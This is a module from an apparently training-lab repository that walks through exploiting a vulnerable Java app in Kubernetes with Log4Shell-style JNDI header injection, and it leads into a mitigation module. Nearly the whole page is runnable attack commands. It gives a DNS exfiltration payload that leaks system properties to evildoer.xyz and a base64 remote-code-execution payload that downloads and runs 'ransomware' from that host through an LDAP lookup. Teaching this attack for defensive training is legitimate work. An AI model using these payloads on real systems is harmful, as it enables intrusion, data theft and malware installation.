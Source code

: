 # Exploitation 

Let's exploit the vulnerable java-app workload.

## Get a shell to a running container

```
kubectl exec -it -n attack attack -- bash
```

Try a valid request to start

```
curl -v -H 'X-Api-Version: 1.0' 'java-app.java-app'
```

## Data exfiltration

```
curl -v -H \
  'X-Api-Version: ${jndi:dns://${sys:os.name}.${sys:os.version}.evildoer.xyz}' \
  'java-app.java-app'
```

Here are some other interesting properties you can access to fingerprint the target.

```
${sys:os.name}
${sys:os.version}
${sys:user.name}
${sys:user.dir}
${sys:java.version}
```

![pwn](img/cc-dsg-data-exfil.png)

## Remote code execution

Create a base64 encoded playload to install our malware

```
echo -n 'wget evildoer.xyz/ransomware;chmod +x /ransomware;./ransomware' | base64
```

```
d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=
```

Append the output to the end of the JNDI lookup url

```
curl -v -H \
  'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/<PUT BASE64 ENCODED PAYLOAD HERE>} \
  'java-app.java-app'
```

So you end up with

```
curl -v -H \
  'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
  'java-app.java-app'

```

![pwn](img/cc-dsg-alerts.png)

![pwn](img/cc-activity-alerts.png)



[Next -> Module 7](mitigation.md)
